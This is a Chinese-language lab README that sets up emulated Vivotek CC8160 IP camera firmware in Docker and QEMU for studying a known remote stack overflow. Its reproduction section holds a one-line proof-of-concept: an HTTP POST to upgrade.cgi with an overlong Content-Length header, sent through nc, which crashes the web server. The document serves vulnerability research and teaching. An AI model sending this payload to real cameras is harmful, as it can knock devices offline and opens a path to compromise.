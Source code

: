 # Vivotek IP Cameras CC8160 栈溢出漏洞


## 漏洞环境

### 用户级模拟 - 快速验证

手动构建：

```sh
# 构建 binwalk 并解包固件
$ cd baseImage/binwalk
$ docker build -t binwalk .
$ cd Vivotek/remote_stack_overflow
$ docker run -v $PWD/firmware:/root/firmware binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 构建漏洞环境
$ docker-compose -f docker-compose-user.yml build

# 后台启动环境
$ docker-compose -f docker-compose-user.yml up
```

直接拉取：

```sh
# 拉取 binwalk 并解包固件
$ docker pull firmianay/binwalk
$ docker run -v $PWD/firmware:/root/firmware firmianay/binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 拉取漏洞环境并启动
$ docker pull firmianay/vivotek:remote_stack_overflow-user
$ docker run --privileged -p 1234:80 -it vivotek:remote_stack_overflow-user
```

### 系统级模拟 - 动态调试

手动构建，解包过程同上。如果想要动态调试，还需要编译对应的 arm gdbserver 并复制到 system-emu 目录。

```sh
# 先构建漏洞环境 qemu-system:arm 环境
$ cd baseImage/qemu-system/arm
$ docker build -t qemu-system:arm .

# 再构建漏洞环境
$ docker-compose -f docker-compose-system.yml build

# 启动环境
$ docker-compose -f docker-compose-system.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it vivotek-system /bin/bash
$ ssh root@192.168.2.2
```

直接拉取：

```sh
$ docker pull firmianay/vivotek:remote_stack_overflow-system
$ docker run --privileged -it vivotek:remote_stack_overflow-system
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 1234
```

![img](./crash.png)

## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/
